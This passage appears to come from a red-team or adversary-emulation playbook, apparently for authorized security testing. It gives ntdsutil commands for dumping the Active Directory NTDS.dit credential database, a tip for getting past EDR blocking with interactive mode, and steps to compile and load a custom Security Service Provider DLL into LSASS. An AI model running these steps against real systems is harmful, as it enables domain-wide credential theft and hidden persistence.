 ```
cmd> ntdsutil “ac in ntds” “ifm” “cr fu {{ output_path }}” q q
```

### Notes

In the case that ntdsutil is killed during execution (either manually or by an EDR product), the snapshots need to be cleaned up. You cannot do so using vssadmin because they are in use. Delete the snapshot with the following command, using the snapshot number from the dump command in the above guidance:

```
cmd> ntdsutil.exe snapshot "list all" "delete {{ snapshot_number }}" quit quit
```

If the command itself is blocked by a security tool, ntdsutil.exe's interactive mode can be used if executing interactively. The commands are the same but should be used one at a time:

```
cmd> ntdsutil.exe 
ntdsutil> ac in ntds 
ntdsutil> ifm 
ntdsutil> cr fu C:\path\to\ntds-dump
ntdsutil> q q
```

### Cleanup

1. Delete the snapshot if necessary (see "Notes" above)
1. Remove the NTDS.dit copy at the path you specified during execution

## LSASS Security Service Provider - Temporary SSP

Register a Security Service Provider (SSP) for LSASS. This will trigger a DLL load of the SSP into LSASS.

Register an SSP temporarily by calling the AddSecurityPackage() API.

### Prerequisites

- Local administrator 
- A compiled SSP DLL and a method of calling the AddSecurityPackage() API (e.g. custom exe payload)
    - SSP source: https://github.com/2XXE-SRA/payload_resources/blob/master/c/lsa_ssp.c
      - This can be compiled using MinGW via `x86_64-w64-mingw32-gcc -shared -municode -o ssp.dll lsa_ssp.c -lsecur32`
    - SSP loader: https://github.com/2XXE-SRA/payload_resources/blob/master/powershell/ssp_loader.ps1

### Guidance

Open an administrative PowerShell terminal. 

If using the script linked above, run the following command

```
PS> .\ssp_loader.ps1 {{ ssp_dll_path }}
```
